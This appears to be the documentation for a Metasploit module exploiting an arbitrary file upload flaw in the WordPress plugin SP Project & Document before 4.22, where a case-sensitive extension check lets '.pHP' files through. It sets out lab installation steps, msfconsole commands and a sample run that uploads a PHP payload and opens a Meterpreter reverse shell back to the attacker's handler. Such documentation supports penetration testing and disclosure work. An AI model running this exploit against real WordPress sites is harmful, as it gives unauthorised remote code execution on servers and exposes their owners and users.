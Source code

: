 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin SP Project & Document < 4.22.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Indeed, even if it is not possible to upload `.php` files, the security check only works with lowercase
making possible to upload `.pHP` files for instance.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/sp-client-document-manager/<user_id>/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of SP Project & Document plugin from [there]
(https://downloads.wordpress.org/plugin/sp-client-document-manager.4.21.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_sp_project_document_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and SP Project & Document 4.21.
See the following output :

```
msf6 > use wordpress_plugin_sp_project_document_manager
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set rhost 192.168.1.35
rhost => 192.168.1.35
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set username admin
username => admin
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set password adminocd2021password => adminocd2021
msf6 exploit(wordpress_plugin_sp_project_document_manager) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 4.21 of plugin SP Project & Document Manager found !
[+] The target is vulnerable. This version of SP Project & Document Manager is vulnerable !
[*] Uploading file 'ejtfh.pHP' containing the payload...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 4 opened (192.168.1.28:4444 -> 192.168.1.35:59938) at 2021-07-09 11:41:25 +0200
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 5 opened (192.168.1.28:4444 -> 192.168.1.35:59940) at 2021-07-09 11:41:45 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
